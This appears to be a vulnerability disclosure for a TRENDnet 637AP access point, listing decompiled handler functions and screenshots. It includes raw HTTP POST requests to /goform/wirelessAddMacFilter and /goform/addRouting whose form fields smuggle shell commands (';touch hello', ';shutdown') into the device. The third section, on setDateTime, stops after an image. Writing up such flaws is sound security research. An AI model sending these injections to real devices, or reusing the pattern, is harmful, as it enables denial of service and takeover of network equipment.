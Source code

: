 ### 1 sub_4321F0 wirelessAddMacFilter

![image-20220828175449129](trendnet637ap.assets/image-20220828175449129.png)

![image-20220828175343039](trendnet637ap.assets/image-20220828175343039.png)

```
POST /goform/wirelessAddMacFilter HTTP/1.1
Host: 192.168.0.50
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:73.0) Gecko/20100101 Firefox/73.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 40
Origin: http://192.168.0.50
Connection: close
Referer: http://192.168.0.50/wireless/wireless_mac_filtering.asp
Upgrade-Insecure-Requests: 1

comment=;touch%20hello&mac_address=aaaaa
```

### 2 sub_424E10 addRouting

![image-20220828200819013](trendnet637ap.assets/image-20220828200819013.png)

![image-20220828200835088](trendnet637ap.assets/image-20220828200835088.png)

![image-20220828200724089](trendnet637ap.assets/image-20220828200724089.png)

```
POST /goform/addRouting HTTP/1.1
Host: 192.168.0.50
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:73.0) Gecko/20100101 Firefox/73.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 12
Origin: http://192.168.0.50
Connection: close
Referer: http://192.168.0.50/wireless/wireless_mac_filtering.asp
Upgrade-Insecure-Requests: 1


dest=;shutdown
```

### 3 sub_43D930 setDateTime



![image-20220828202733019](trendnet637ap.assets/image-20220828202733019.png)

